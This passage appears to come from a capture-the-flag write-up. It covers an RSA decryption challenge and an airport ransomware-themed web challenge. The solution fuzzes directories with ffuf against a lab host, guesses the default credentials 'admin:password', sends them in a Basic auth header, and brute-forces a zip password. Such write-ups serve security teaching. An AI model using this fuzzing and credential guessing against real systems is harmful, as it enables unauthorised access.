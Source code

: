 ```md
DESCRIPTION
You have managed to acquire an encrypted message from the exfiltrated data together with set of RSA public keys that belong to employees of the airport.
The keys are already extracted from certificates and saved to files with random names, thus anonymous.
It is known that the message is encrypted with one of those keys.
QUESTION
Find out what data was extracted from the network by decrypting it.
Recovered files
<https://static.ctftech.io/challs/output.zip?_gl=1*1oed30*_ga*NzI4Nzc3OTA2LjE2NjQ4NjIzOTc.*_ga_MKDT1BJ3MH*MTY2NDg4NzYwMC41LjAuMTY2NDg4NzYwMC4wLjAuMA..>
```

#### ATC

```md
DESCRIPTION
A teller at the airport informs you that they are currently under a ransomware attack and therefore it is not possible to complete your check-in.
You offer to help and start looking for anything useful.
While visiting the air traffic control tower, you see a ransom message appear on the radar screens.
Seems that the radars somehow still work.
Maybe not everything has been encrypted yet.
QUESTION
Investigate if you can still recover some unencrypted files from the system.
ATC Radar
```

##### Solution

Solution here was to notice various paths that requred basic auth header, as investigated further username & password was `admin:password`.
After downloading `/backup` file that was `.zip` file, we had to brute-force the password for the zip file and
there was the flag for this task.

##### Steps

1. Search for common directories with

```bash
ffuf -w /usr/share/wordlists/dirbuster/directories.jbrofuzz -u http://env263.target03:8080/FUZZ
```

- Notice that the it results in 403 status which means we require authentication.

2. By manually visiting the pages we are prompted for the credentials and simply trying the user `admin` and password `password`, we managed to see the content of directories.

3. Fuzzing again with the credentials in the header:

```bash
> ffuf -w /usr/share/wordlists/dirbuster/directories.jbrofuzz -u http://env263.target03:8080/FUZZ -mc 200 -H "Authorization: Basic YWRtaW46cGFzc3dvcmQ="

# Fuzz output
??                      [Status: 200, Size: 7510, Words: 1852, Lines: 168, Duration: 48ms]
Admin                   [Status: 200, Size: 321, Words: 22, Lines: 23, Duration: 50ms]
admin                   [Status: 200, Size: 321, Words: 22, Lines: 23, Duration: 51ms]
ARCHIVE                 [Status: 200, Size: 321, Words: 22, Lines: 23, Duration: 36ms]
Archive                 [Status: 200, Size: 321, Words: 22, Lines: 23, Duration: 36ms]
archive                 [Status: 200, Size: 321, Words: 22, Lines: 23, Duration: 36ms]
backup                  [Status: 200, Size: 240, Words: 1, Lines: 3, Duration: 36ms]
Backup                  [Status: 200, Size: 240, Words: 1, Lines: 3, Duration: 36ms]
database                [Status: 200, Size: 321, Words: 22, Lines: 23, Duration: 44ms]
Database                [Status: 200, Size: 321, Words: 22, Lines: 23, Duration: 44ms] 
```
